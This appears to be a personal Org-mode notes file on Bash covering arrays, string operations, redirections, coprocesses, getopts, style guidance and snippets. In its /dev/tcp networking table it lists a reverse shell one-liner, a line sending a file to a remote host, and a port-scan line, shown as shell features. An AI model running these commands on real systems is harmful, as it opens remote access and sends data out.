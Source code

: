 - source https://github.com/wasix-org/bash/
- manual https://www.gnu.org/software/bash/manual/bash.html
- wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://bash-hackers.gabe565.com/
  - archive of the 2023 defunct wiki.bash-hackers.org
  - https://web.archive.org/web/20221101110416/https://wiki.bash-hackers.org/

- https://github.com/onceupon/Bash-Oneliner
- https://github.com/dylanaraps/writing-a-tui-in-bash

- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/
  - bash won't wait for cmd2 or cmd3 to finish to exit
    - detailed explaination https://unix.stackexchange.com/questions/403783/the-process-substitution-output-is-out-of-the-order
    - you can hack together a ~work group~ type of thing with ~mkfifo~ https://unix.stackexchange.com/questions/351780/wait-for-bash-process-substitution-subshells

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- CTRL+z = sends a SIGTSTP aka suspends program
- jobs/bg/fg/%N

** Variables
|--------------+-----------+------------------------------------|
|              | example   | description                        |
|--------------+-----------+------------------------------------|
| OSTYPE       | linux-gnu | defined at compile type            |
| BASH_ARGV0   | foo.sh    | same as $0                         |
| BASH_ARGC    |           |                                    |
| BASH_ARGV    |           | array, all params in current stack |
| BASH_REMATCH |           | array, of =~ string match          |
| COLUMNS      |           | bash4+ number of columns in window |
| LINEs        |           | bash4+ number of rows in window    |
|--------------+-----------+------------------------------------|
** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- reserved words
- shell builtin
- numbers (? are of 2^ARCH size
- Bash does NOT support natively floating point numbers

- associative arrays
  - is always global
  - cannot be passed to a function by value
  - [[https://github.com/wasix-org/bash/blob/master/assoc.c]["are standard shell hash tables"]]
  - ops
    |-------------------+----------------|
    |        <c>        |                |
    |  declare -A arr   | init           |
    | declare -rA arr=( | init+assign+ro |
    |   ["c"]="foo")    |                |
    | arr["c"]="foobar" | assign         |
    |    ${arr["c"]}    | access         |
    |    ${!arr[@]}     | keys           |
    |     ${arr[*]}     | values         |
    | unset ${arr["c"]} | delete element |
    |     unset arr     | delete         |
    |-------------------+----------------|

- array
  - index start at 0(zero)
    - must be non-negative
  - [[https://github.com/wasix-org/bash/blob/master/array.c]["are sparse doubly-linked lists. An element's index is stored with it."]]
    - meaning that random access is O(n)
  - array ops https://tldp.org/LDP/abs/html/arrays.html
    |----------------------+----------------------------|
    | declare -a arr       |                            |
    | arr=(zero one two)   | init                       |
    | arr=([0]="zero num") | init whitespace support    |
    | arr+=(foo bar)       | append multiple            |
    | arr+=("blip bah")    | append one with whitespace |
    | ${!arr[@]}           | returns indices            |
    | ${#arr[@]}           | array size                 |
    | ${arr[0]}            | access                     |
    | ${arr[@]:1:3}        | slicing                    |
    | ${arr[@]// /_}       | substitute on each element |
    | ${arr[@]/#/foo}      | preppend "foo" to each     |
    |----------------------+----------------------------|

- string ops
  |-------------+-----------------|
  | ${foo:1:10} | slice           |
  | ${#foo}     | length          |
  | ${foo,}     | lowercase       |
  | ${foo^^}    | uppercase       |
  | ${foo^}     | capitalize      |
  | ${foo/a/b}  | substitute once |
  | ${foo//a/b} | substitute all  |
  |-------------+-----------------|

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > >(tee file.txt) 2>&1
  - exec 2> >(tee -a file.txt)

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
  - /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators

|-----------------------------------+--------------------------------------------|
|                <c>                |                                            |
|             OPERATOR              |                                            |
|-----------------------------------+--------------------------------------------|
|             id++ id--             | variable post-increment and post-decrement |
|             ++id --id             | variable pre-increment and pre-decrement   |
|                + -                | unary minus and plus                       |
|                **                 | exponentiation                             |
|               * / %               | multiplication, division, remainder        |
|                + -                | addition, subtraction                      |
|-----------------------------------+--------------------------------------------|
|                 !                 | logical negation                           |
|             <= >= < >             | comparison                                 |
|               == !=               | equality and inequality                    |
|                &&                 | logical AND                                |
|                ¦¦                 | logical OR                                 |
|-----------------------------------+--------------------------------------------|
|          expr?expr:expr           | conditional operator                       |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                 |
|           expr1 , expr2           | comma                                      |
|-----------------------------------+--------------------------------------------|
|                 ~                 | bitwise negation                           |
|               << >>               | bitwise left and right shifts              |
|                 &                 | bitwise AND                                |
|                 ^                 | bitwise exclusive OR                       |
|                 ¦                 | bitwise OR                                 |
|-----------------------------------+--------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

- Don’t brace-delimit single character shell specials / positional parameters,
  unless strictly necessary or avoiding deep confusion.
- Indentation: Indent 2 spaces. No tabs.
- Comment at the header
  #+begin_src bash
    #!/bin/bash
    #
    # Perform hot backups of Oracle databases.
  #+end_src
- Redirect errors to STDERR
  #+begin_src bash
    err() {
      echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
    }
  #+end_src
- Do not put an extension on executables, only on libraries
- Guidelines
  - When is ok
    * mostly calling other utilities
    * relatively little data manipulation
  - When NOT use
    * Scripts more than 100 lines long
    * Using non-straightfoward control flow logic
    * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Executable
- https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html
#+CAPTION: initialization order for sh/bash/zsh
#+ATTR_ORG: :width 800
[[https://blog.flowblok.id.au/static/images/shell-startup-actual.png]]
* Codebases

- tui: file browser https://github.com/dylanaraps/fff/
- dns server backend https://github.com/basecamp/xip-pdns/blob/master/bin/xip-pdns
- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  - https://github.com/cgsdev0/bash-stack/
  - https://bashsta.cc/0-index
- minecraft server
  - https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  - https://github.com/sdomi/witchcraft
  - https://news.ycombinator.com/item?id=30347501

* Snippets

- Read keypress
  #+begin_src sh
    read -rsn1 keypress
    # -s  silent mode (not echo)
    # -n1 read 1 char
    # -r  raw mode, do not escape on backslash
  #+end_src

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src
